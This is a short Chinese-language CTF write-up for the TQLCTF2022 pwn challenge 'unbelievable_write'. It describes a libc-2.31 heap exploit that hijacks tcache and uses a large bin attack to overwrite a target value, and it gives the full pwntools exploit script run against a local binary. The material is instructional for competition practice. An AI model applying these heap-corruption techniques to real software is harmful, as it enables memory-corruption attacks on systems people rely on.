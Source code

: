 ```yaml
---
layout: article
pageview: true
key: 2022-03-07-TQLCTF2022-pwn-wp
title: TQLCTF2022Pwn题WP
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```

# TQLCTF2022Pwn题WP

<!--more-->

## unbelievable_write

只要修改`bss`段上`target`值就能拿`flag`，还提供了一次堆上任意地址释放的功能，难点在于申请的堆块在写入后会被立即释放。

由于题目环境是`libc-2.31`，我们考虑`large bin attack`，先释放并劫持`tcache`结构体使得我们可以控制申请到的堆快的位置，修改`counts`使得我们可以直接申请到`unsoted bin`，此时我们就可以根据`2.31 large bin attack`的顺序修改并拿到flag了。

需要注意的是，由于题目申请后立即释放堆快的特性，我们需要在劫持`tcache`结构体前布置好需要用到的堆快（一个0x400和0x3f0的堆快用于制作`large bin`，一个0xa0的堆快用于修改`bk_nextsize`）。

题目在输出时会申请一个0x400大小的堆快，如果在我们`large bin attack`后申请这个堆快会使得程序崩溃拿不到`flag`，我们可以提前触发这个输出，副作用是使得0xa0大小的堆快重新申请时地址不固定，需要`1/16`的概率去爆破。


```python
from pwn import *
context(arch='amd64',log_level='debug')
context.terminal=['tmux','splitw','-h']
p=process('./pwn1')
elf=ELF('./pwn1')

def c1(size,con):
    p.sendlineafter('>','1')
    p.sendline(str(size))
    p.send(con)

def c2(off):
    p.sendlineafter('>','2')
    p.sendline(str(off))

def c3():
    p.sendlineafter('>','3')

target=0x404080
golden=target+0x8
ptr=0x4052a0
heap_base=0x405000

p.sendline('a')
c1(0xa0,p64(0)*0x5+p64(0xb1)+b'\n')
c1(0x400,b'\n')
c1(0x20,b'\n')
c1(0x3f0,b'\n')
c1(0x30,b'\n')

c2(-0x290)

c1(0x280,p16(0)*9+p16(1)+p16(0)*0x1d+p16(0)+p16(0)*0x16+p16(0x9)*2+p64(0)*9+b'\x00\xa7'+b'\n')
c1(0x400,b'\n')

c1(0x500,b'\n')
c1(0x3f0,b'\n')
c1(0xa0,p64(0)*15+p64(0x411)+p64(target+0x100)*3+p64(target-0x20))
c1(0x500,b'\n')

c3()
p.interactive()
```